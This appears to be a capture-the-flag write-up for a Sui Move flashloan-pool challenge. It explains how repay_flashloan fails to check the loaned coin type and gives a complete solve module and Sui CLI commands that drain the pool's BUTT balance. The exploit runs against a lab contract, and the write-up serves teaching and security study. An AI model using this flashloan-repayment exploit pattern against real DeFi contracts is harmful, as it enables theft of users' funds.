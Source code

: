 # Week 2

In [week 2](./week2/), we got a contract about pool. Here are the core logics we focus on:

```rust
public fun is_solved(challenge: &Challenge<LP, BUTT, DROP>): bool {
    let pool = &challenge.pool;
    let butt_balance = pool.balance_of<LP, BUTT>();
    let is_flashloan = pool.is_flashloan();

    butt_balance == 0 && is_flashloan == false
}
```

In order to claim flag, we need to satisfy `is_solved` which has 2 conditions: the pool must have `$BUTT` balance of 0 and we are not in flash loan phase.

```rust
public fun create_challenge(mint_butt: MintBUTT<BUTT>, mint_drop: MintDROP<DROP>, create_cap: CreatePoolCap<LP>, ctx: &mut TxContext): Challenge<LP, BUTT, DROP> {
    assert!(mint_butt.get_total_supply() == 0);
    assert!(mint_drop.get_total_supply() == 0);
    
    let coin_1 = butt::mint_for_pool<BUTT>(mint_butt, ctx);
    let mut coin_2 = drop::mint_for_pool<DROP>(mint_drop, ctx);
    
    let pool = pool::new(create_cap, coin_1, coin_2.split(10000000, ctx), 1000, vector[6,6], ctx);

    let challenge = Challenge<LP, BUTT, DROP> {
        id: object::new(ctx),
        pool: pool,
        drop_balance: coin::into_balance(coin_2),
        claimed: false,
        success: false,
    };
    challenge
}

public fun claim_drop(challenge: &mut Challenge<LP, BUTT, DROP>, ctx: &mut TxContext): Coin<DROP> {
    assert!(!challenge.claimed, EAlreadyClaimed);

    challenge.claimed = true;
    let airdrop = challenge.drop_balance.withdraw_all().into_coin(ctx);

    airdrop
}
```

Upon creating the challenge we get some shared objects: `MintBUTT<BUTT>`, `MintDROP<DROP>`, and `CreatePoolCap<LP>`. We can also use `claim_drop` to get 1100 `$DROP` airdrop.

The vulnerability happens in `pool.move`:

```rust
public fun swap_a_to_b<LP, A, B>(
    pool: &mut Pool<LP>,
    coin_a: Coin<A>,
    ctx: &mut TxContext,
): Coin<B> {
    assert!(contains_type<LP, A>(pool), ETypeNotFoundInPool);
    assert!(contains_type<LP, B>(pool), ETypeNotFoundInPool);
    assert!(!pool.flashloan, EFlashloanAlreadyInProgress);

    let amount_out = coin_a.value() * balance_of<LP, B>(pool) / balance_of<LP, A>(pool);
    let fee = amount_out * pool.swap_fee / FEE_PRECISION;
    deposit<LP, A>(pool, coin_a);
    withdraw_internal(pool, amount_out - fee, ctx)
}

public fun flashloan<LP, A>(
    pool: &mut Pool<LP>,
    amount: u64,
    ctx: &mut TxContext,
): (Coin<A>, FlashReceipt) {
    assert!(contains_type<LP, A>(pool), ETypeNotFoundInPool);
    assert!(!pool.flashloan, EFlashloanAlreadyInProgress);

    pool.flashloan = true;

    let coin = withdraw_internal<LP, A>(pool, amount, ctx);
    let receipt = FlashReceipt {
        pool_id: object::id(pool),
        type_name: type_name::get<A>().into_string(),
        repay_amount: amount * (FEE_PRECISION + FLASHLOAN_FEE) / FEE_PRECISION,
    };

    (coin, receipt)
}

public fun repay_flashloan<LP, A>(pool: &mut Pool<LP>, receipt: FlashReceipt, coin: Coin<A>) {
    let FlashReceipt { pool_id: id, type_name: _, repay_amount: amount } = receipt;
    assert!(contains_type<LP, A>(pool), ETypeNotFoundInPool);
    assert!(object::id(pool) == id, EPoolIdMismatch);
    assert!(coin::value(&coin) == amount, ERepayAmountMismatch);
    deposit_internal<LP, A>(pool, coin);

    pool.flashloan = false;
}
```

We have the ability to swap between two coins, do flashloan, and payback flashloan. The critical issue here is in this line: `let FlashReceipt { pool_id: id, type_name: _, repay_amount: amount } = receipt;`. Clearly, `type_name` is not being checked, which means that the coin you loan and the coin you return do not necessarily have to be the same coin. As long as you pass the value check `coin::value(&coin) == amount` the flashloan is considered returned successfully.

This gives us the complete exploit:

1. Get airdrop 1100 of `$DROP`
2. Call `flashloan<BUTT>` of 1000, receipt will have value of 1050 because of 5% service fee
3. Call `repay_flashloan<DROP>` of 1050 (out of the 1100 airdropped) to return the flashloan
4. We now both made `$BUTT` balance to 0 and not in flash loan phase

```rust
module solve_week2::solve{
    use week2::challenge::{Challenge, get_flag, claim_drop, create_challenge};
    use week2::pool::{CreatePoolCap, flashloan, repay_flashloan};
    use week2::lp::LP;
    use week2::butt::{BUTT, MintBUTT};
    use week2::drop::{DROP, MintDROP};
    use std::string::String;
    use sui::transfer::public_share_object;

    #[allow(lint(share_owned))]
    public entry fun create(mint_butt: MintBUTT<BUTT>, mint_drop: MintDROP<DROP>, create_cap: CreatePoolCap<LP>, ctx: &mut TxContext) {
        let challenge = create_challenge(mint_butt, mint_drop, create_cap, ctx);
        public_share_object(challenge);
    }

    public fun solve_get_flag(
        challenge: &mut Challenge<LP, BUTT, DROP>,
        github_id: String,
        ctx: &mut TxContext) {
        // get airdrop 1100 -> split to leave only 1050
        let (coin1, coin2) = {
            let mut balance = claim_drop(challenge, ctx).into_balance();
            let split_balance = balance.split(1050);
            (split_balance.into_coin(ctx), balance.into_coin(ctx))
        };
        transfer::public_transfer(coin2, @0x0);
        // flashloan<BUTT> 1000, receipt 1050
        let (coin, receipt) = flashloan<LP, BUTT>(challenge.get_pool_mut(), 1000, ctx);
        transfer::public_transfer(coin, @0x0);
        // repay_flashloan<DROP> 1050
        repay_flashloan<LP, DROP>(challenge.get_pool_mut(), receipt, coin1);
        get_flag(challenge, github_id, ctx);
    }
}
```

Here are the brief commands used in Sui Client CLI to interact:

```bash
# create challenge
sui client call \
    --package 0xc4aa0ee030c577d59ae34122ce82d36c2e73bd2ccd2a54bf03425396092dbdcc \
    --module solve \
    --function create \
    --args 0x2fc8bb85112f48e1db71f5af426ea39438161db4309a2a7e62be716a7421ef29 0x88327a3840f178df85f37d17fa3e195d7c1a5f3492ae77a30e47385828714b6b 0xeb685aad0a408af4c4ec1a2879b50fe33c429167f5f5ac5576428bcdf8ad69df \
    --gas-budget 100000000

# check balance
sui client object 0x943aafba08ebbe789e993d61482fa0790430954a6a65f7db17e1a0f255303fa3

# deploy contract
sui client call \
    --package 0xc4aa0ee030c577d59ae34122ce82d36c2e73bd2ccd2a54bf03425396092dbdcc \
    --module solve \
    --function solve_get_flag \
    --args 0x943aafba08ebbe789e993d61482fa0790430954a6a65f7db17e1a0f255303fa3 "8f3d7e72-2ef1-4576-8eba-ad0a90d3f3c8" \
    --gas-budget 100000000
```